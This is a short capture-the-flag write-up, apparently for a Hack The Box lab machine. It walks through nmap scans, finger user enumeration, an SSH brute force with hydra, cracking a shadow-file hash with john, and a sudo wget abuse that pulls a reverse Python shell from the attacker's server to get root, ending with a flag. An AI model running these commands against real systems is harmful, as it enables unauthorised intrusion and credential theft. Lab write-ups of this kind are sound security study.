### Scan
```

Host is likely running OpenBSD/Cisco/Oracle


PORT    STATE SERVICE
79/tcp  open  finger
111/tcp open  rpcbind
515/tcp open  printer


PORT    STATE SERVICE VERSION
79/tcp  open  finger?
|_finger: No one logged on\x0D
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq: 
|_    Login Name TTY Idle When Where
111/tcp open  rpcbind 2-4 (RPC #100000)
515/tcp open  printer


PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
515/tcp   open  printer
6787/tcp  open  smc-admin
22022/tcp open  unknown


PORT      STATE SERVICE VERSION
6787/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
22022/tcp open  ssh     OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:00:94:32:18:60:a4:93:3b:87:a4:b6:f8:02:68:0e (RSA)
|_  256 da:2a:6c:fa:6b:b1:ea:16:1d:a6:54:a1:0b:2b:ee:48 (ED25519)

```
### Enumeration
finger? - simple network protocols for the exchange of human-oriented status and user information. a relic of a dif time
`finger @10.10.10.76` yields no results, so we can user pentest monkey script for user enum
`./finger-user-enum.pl -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 10.10.10.76`
Only users with valid IP are sunny and sammy![[Screenshot 2024-10-08 at 4.57.28 PM.png]]
We can brute force ssh with hydra and rockyou (or be big brain and use box name)`sunday`
`hydra -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 -s 22022 ssh`
![[Screenshot 2024-10-08 at 5.03.15 PM.png]]
SSH in with `ssh sunny@10.10.10.76 -p 22022`
### Priv Esc
root troll priv as sunny?
go to root directory, and go to backup dir. thats not usually there boxo
we find shadow backup and cat it ![[Screenshot 2024-10-08 at 5.07.19 PM.png]]
see user sammy hash to crack. (no root, come back later)
`john --wordlist=/usr/share/wordlists/rockyou.txt sammy.hash`
`cooldude!`![[Screenshot 2024-10-08 at 5.12.04 PM.png]]
ssh to sammy
sudo wget priv as sammy
lets use wget on sammy to overwrite root troll and run it as sunny.
create a reverse py shell (pentest monkey )
serve with py server and overwrite w wget
`sudo wget http://10.10.14.11:8000/tmp.py -0 /root/troll`
![[Screenshot 2024-10-08 at 5.21.53 PM.png]]
Then, quickly (5s), execute `sudo /root/troll` as sunny. If your listener is set up, you'll get root.
The script is rewritten every 5 seconds, so be quick!![[Screenshot 2024-10-08 at 5.32.10 PM.png]]
ROOT:a50977c381dd35e6a1ee3ee5e7041ce4